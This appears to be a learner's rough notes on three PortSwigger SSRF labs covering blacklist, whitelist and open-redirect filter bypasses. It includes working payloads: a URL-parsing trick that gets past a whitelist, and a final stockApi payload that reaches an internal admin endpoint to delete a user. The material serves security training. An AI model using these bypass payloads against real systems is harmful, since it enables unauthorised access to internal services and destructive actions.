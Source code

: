 # Lab: SSRF with blacklist-based input filter
https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

http://localhost/admin

rwq ---> waf (BL) ---> server (200 / 302 / 500)
req ----> waf (BL) ---> (400)


# Lab: SSRF with whitelist-based input filter
https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

req ----> waf (WL) ----> stock.weliketoshop.net (server A)
req ----> waf (WL) ----> localhost (server B)

salah - username
@ - at
gmail.com - domain/host

ssh://username@site.com


waf:
localhost%23@stock....net

server:
localhost#--------------/admin

#@stock.weliketoshop.net

https://pravinponnusamy.medium.com/ssrf-payloads-f09b2a86a8b4

https://www.youtube.com/watch?v=voTHFdL9S2k

@#%&<>^'"`
prtial list


# Lab: SSRF with filter bypass via open redirection vulnerability
https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

http://192.168.0.12:8080/admin

server side rwquest forgery

1. find SSRF injection point:
stockApi=

2. find a way out of the interanl system to the internal network:
/product/nextProduct?currentProductId=2&path=/product?productId=3

# final payload:
stockApi=/product/nextProduct%3fcurrentProductId%3d2%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos